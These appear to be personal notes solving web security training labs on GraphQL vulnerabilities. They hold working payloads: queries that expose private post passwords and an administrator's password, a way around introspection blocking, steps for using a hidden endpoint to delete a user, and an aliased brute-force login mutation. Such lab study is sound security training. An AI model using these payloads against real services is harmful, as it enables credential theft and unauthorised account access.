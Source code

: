 # GraphQL API Vulnerabilities

[GraphQL Visualizer](https://graphql-kit.com/graphql-voyager/)
## Lab: Accessing private GraphQL posts
```json
{"query":"\nquery getBlogSummaries {\n    getBlogPost(id:3) {\n        image\n        title\n        summary\n        id\n  isPrivate \n postPassword \n   }\n}","operationName":"getBlogSummaries"}
```

## Lab: Accidental exposure of private GraphQL fields

1. introspection query
2. find administrator
```json
{"query":"\nquery getUser {\n    getUser(id:1) {\n        id\n   username\n      password\n      }\n}","operationName":"getUser"}
```

## Lab: Finding a hidden GraphQL endpoint
1. Try common endpoint, find `/api`.
2. Bypass introspection defense by add a breaklin(%02a) after `__schema`.
3. Save the GraphQL queries to site map, and find the `getUser` and `deleteUser` Query.
4. Delete carlos(id: 3).

## Lab: Bypassing GraphQL brute force protections

Edit in `GraphQL` tab.
```json
 mutation {
        bruteforce0:login(input:{password: "123456", username: "carlos"}) {
              token
              success
          }
          ...
 }
```